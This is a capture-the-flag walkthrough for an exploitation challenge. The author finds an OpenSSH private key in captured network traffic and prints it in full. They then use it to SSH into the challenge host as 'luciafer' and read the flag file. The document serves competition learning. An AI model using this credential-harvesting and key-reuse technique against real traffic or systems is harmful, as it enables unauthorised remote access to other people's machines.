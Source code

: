 # The Root of All Evil... OR... Adding Insult to Injury
![Category](http://img.shields.io/badge/Category-Exploitation-orange?style=for-the-badge) ![Points](http://img.shields.io/badge/Points-300-brightgreen?style=for-the-badge)

## Details

>Great news! Luciafer has been spotted at an internet cafe! She's using her laptop right now! We can catch her, if we act quickly.
>
>We need your help. Can you figure out a way to remotely connect to her machine and capture the flag?
>
>Her username on her system is `luciafer`, and her hostname is:
>`batescafe.deadface.io`
>
>Use the PCAP from Monstrum ex Machina
---
Starting at the bottom of the Packet capturre file, if we browse through the packets one by one moving up to packet number `160849` we notice the below.

![image](https://user-images.githubusercontent.com/73170900/137876793-e7bc9195-1fd6-4047-bdc5-83a87f3bee37.png)

If we follow the TCP Stream for this packet we can see the full RSA Private Key

![image](https://user-images.githubusercontent.com/73170900/137877103-1506a245-491a-4a83-b535-65ad06236884.png)


```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

If we copy this key and save it to a file on our local machine, then set the permission to `600`

```bash
chmod 600 key_from_pcap
```

We can connect to the shell using the command;

```bash
ssh -i key_from_pcap luciafer@batescafe.deadface.io

❯ ssh -i key_from_pcap luciafer@batescafe.deadface.io
luciafer@d37a1fc45114:~$ 
```

Running a recursive `ls` command we can see the following;

```bash
luciafer@d37a1fc45114:~$ ls -alR
.:
total 40
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 .
drwxr-xr-x 1 root     root     4096 Oct 10 02:45 ..
-rw-r--r-- 1 luciafer luciafer  220 Oct 10 02:45 .bash_logout
-rw-r--r-- 1 luciafer luciafer 3771 Oct 10 02:45 .bashrc
-rw-r--r-- 1 luciafer luciafer  807 Oct 10 02:45 .profile
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 Documents
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:46 Downloads
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 Music
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 Pictures
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 Videos

./Documents:
total 8
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 .
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 ..

./Downloads:
total 12
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:46 .
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 ..
-rw-rw-r-- 1 luciafer luciafer   49 Oct 10 02:45 flag.txt

./Music:
total 8
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 .
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 ..

./Pictures:
total 8
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 .
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 ..

./Videos:
total 8
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 .
drwxr-xr-x 1 luciafer luciafer 4096 Oct 10 02:45 ..
``` 

We can the `cat` the flag like so;

```
luciafer@d37a1fc45114:~$ cat Downloads/flag.txt 
flag{Lucy-a-FUR-G0T-R3KT-by-the-BLUZers-CLUB!!!}
```

## flag{Lucy-a-FUR-G0T-R3KT-by-the-BLUZers-CLUB!!!}
